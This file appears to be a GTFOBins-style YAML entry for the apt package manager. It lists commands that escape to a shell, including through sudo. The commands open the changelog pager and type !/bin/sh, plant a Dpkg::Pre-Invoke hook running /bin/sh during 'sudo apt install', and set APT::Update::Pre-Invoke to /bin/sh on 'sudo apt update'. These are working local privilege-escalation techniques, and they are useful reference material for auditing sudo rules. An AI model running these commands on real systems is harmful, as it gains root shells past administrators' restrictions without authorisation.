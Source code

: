 ```yaml
---
functions:
  shell:
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        apt changelog apt
        !/bin/sh
  sudo:
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo apt changelog apt
        !/bin/sh
    - description: For this to work the target package (e.g., `sl`) must not be installed.
      code: |
        TF=$(mktemp)
        echo 'Dpkg::Pre-Invoke {"/bin/sh;false"}' > $TF
        sudo apt install -c $TF sl
    - description: When the shell exits the `update` command is actually executed.
      code: sudo apt update -o APT::Update::Pre-Invoke::=/bin/sh
---
```

